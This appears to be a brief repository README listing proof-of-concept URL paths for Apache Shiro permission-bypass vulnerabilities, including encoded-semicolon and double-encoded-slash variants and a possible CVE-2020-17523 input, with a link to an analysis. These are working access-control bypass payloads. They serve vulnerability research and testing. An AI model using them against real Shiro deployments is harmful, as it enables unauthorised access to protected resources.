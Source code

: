 shiro权限绕过漏洞
PoC:
* /hello/a/
* /hello;/a/
* /hello/%253ba
* /hello/a%252fa
* /hello/%3ba

downgrade shiro if u want to test these PoCs.

## update
### CVE-2020-17523(not sure)
`/test/?name=bypass`

[analysis](http://x2y.pw/2020/08/24/shiro-%E6%9D%83%E9%99%90%E7%BB%95%E8%BF%87%E6%BC%8F%E6%B4%9E%E5%90%88%E9%9B%86/)